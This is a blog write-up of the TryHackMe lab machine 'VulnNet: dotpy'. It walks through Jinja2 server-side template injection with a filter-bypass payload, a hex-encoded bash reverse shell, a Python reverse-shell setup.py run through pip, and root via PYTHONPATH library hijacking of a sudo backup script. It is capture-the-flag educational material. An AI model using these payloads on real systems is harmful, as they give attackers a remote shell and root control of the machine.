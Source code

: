 ```yaml
---
title: "TryHackMe | VulnNet: dotpy"
layout: post
date: 2023-11-11 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- SSTI
- Meduim
- Python
- Hijacking
image: https://tryhackme-images.s3.amazonaws.com/room-icons/d0b3851085d530abbff79210cea04b5d.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

This machine is a python focused machine that was designed to be a bit more challenging but without anything too complicated. It requires to not only find a vulnerable endpoint but also bypass its security protection. We should also pay attention to the output the website gives us.

---

# Nmap

```bash
nmap -A -T4 10.10.113.156
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 10:51 +01
Nmap scan report for 10.10.113.156
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.113.156:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

I only have one open port which contains a login page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105356.png>)

Firstly, I created an account called test :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105644.png>)

Then I am in I see dashboard in front of me, I checked all its options but nothing seemed suspicious :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105742.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110548.png>)

While I was looking for a venerable point to exploit, I found that when I go to some endpoint that doesn't exist, the name of the directory is reflected on the error page, so I thought directly about XSS and SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110828.png>)

And yes is is really vulnerable to SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110759.png>)

I noticed that there is a filtering on the input provided by the user :

{% raw %}
```js
{{self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106111411.png>)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

After a lot of tries I found the right payload :

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106113521.png>)

Now I will try to get a reverse shell :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114320.png>)

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x30\x2e\x39\x2e\x31\x2e\x31\x31\x37\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x27')|attr('read')()}}
```
{% endraw %}

And I am in as web user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114301.png>)

# web -> system-adm

Checking the privileges of our current user we see that we can run pip3 as `system-adm` user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121552.png>)

[https://gtfobins.github.io/gtfobins/pip](https://gtfobins.github.io/gtfobins/pip)

I created a setup.py file that contains the content bellow and uploaded to the remote machine :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.117",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Voilà I got a shell as `system-adm` user : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122922.png>)

Now I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122439.png>)

# PE

Running sudo -l again, it shows that we can run change the PYTHONPATH variable and run the `/opt/backup.py` owned by root : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122017.png>)

```python
from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue
# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)
# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]
# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()
# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Analyzing the source code of the file, we see that it imports the zipfile python library, so I directly thought about python library hijacking.

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122351.png>)

I created a malicious zipfile in /tmp which spawns a root shell and I made it executable :

```python
import os
os.system('/bin/bash')
```

The I changed the PYTHONPATH to point on the /tmp folder :

```bash
chmod +x zipfile.py
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

BOOM I got a shell as root :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121827.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>